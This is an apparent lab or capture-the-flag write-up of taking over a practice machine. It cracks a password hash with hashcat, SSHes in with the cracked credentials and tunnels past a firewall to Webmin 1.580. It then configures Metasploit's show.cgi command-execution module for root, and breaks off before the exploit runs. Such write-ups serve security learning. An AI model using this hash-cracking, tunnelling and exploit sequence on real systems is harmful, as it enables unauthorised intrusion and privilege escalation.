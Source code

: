 hashcat -m 1400 -a 0 hash.txt rockyou.txt on it to reveal 

PW for agent47 = videogamer124

used the creds to SSH into the machine ssh agent47@10.10.231.54

once in ss -tulpin showed a connection on port 10000 which was blocked by an external firewall

ssh -L 10000:localhost:10000  agent47@10.10.231.54 was used to establish a local tunnel to bypass the firewall and get onto the CMS on the parot machine

from there after establishing that tunnel I went to the web browser and did 127.0.0.1:10000 to loginto the CMS with agent47's creds

looking through webmin's sys info page we see it is running version 1.580

[msf](Jobs:0 Agents:0) >> search type:exploit webmin
Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  exploit/linux/http/webmin_file_manager_rce     2022-02-26       excellent  Yes    Webmin File Manager RCE
   2  exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   3  exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   4  exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   5  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor


the first module for common gateway interface RCI has the following description when I type "info 0"


Description:
  This module exploits an arbitrary command execution vulnerability in Webmin
  1.580. The vulnerability exists in the /file/show.cgi component and allows an
  authenticated user, with access to the File Manager Module, to execute arbitrary
  commands with root privileges. The module has been tested successfully with Webmin
  1.580 over Ubuntu 10.04.

allowing us to escalate privileges to root sounds pretty good

use 0 

[msf](Jobs:0 Agents:0) exploit(unix/webapp/webmin_show_cgi_exec) >> unset all
Unsetting datastore...
[msf](Jobs:0 Agents:0) exploit(unix/webapp/webmin_show_cgi_exec) >> set LHOST tun0
LHOST => 10.23.80.154
[msf](Jobs:0 Agents:0) exploit(unix/webapp/webmin_show_cgi_exec) >> set RHOST 127.0.1.1
RHOST => 127.0.1.1
[msf](Jobs:0 Agents:0) exploit(unix/webapp/webmin_show_cgi_exec) >> set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
[msf](Jobs:0 Agents:0) exploit(unix/webapp/webmin_show_cgi_exec) >> set username agent47
username => agent47
[msf](Jobs:0 Agents:0) exploit(unix/webapp/webmin_show_cgi_exec) >> set password videogamer124
password => videogamer124
[msf](Jobs:0 Agents:0) exploit(unix/webapp/webmin_show_cgi_exec) >> unset RHOST
Unsetting RHOST...
[msf](Jobs:0 Agents:0) exploit(unix/webapp/webmin_show_cgi_exec) >> set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1